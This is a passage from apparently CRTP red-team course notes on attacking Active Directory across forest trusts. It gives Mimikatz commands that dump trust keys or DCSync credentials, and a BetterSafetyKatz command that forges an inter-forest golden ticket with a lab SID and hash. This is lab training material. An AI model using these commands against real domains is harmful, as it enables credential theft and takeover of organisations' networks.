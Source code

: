 ![Alt text](/assets/images/posts/crtp/24.png){: .align-center}





## Across Forest using Trust Tickets

Once again, we require the trust key for the inter-forest trust:
```powershell
   → Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```
Or
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
Or
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
```

An inter-forest TGT can be forged:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit"
```
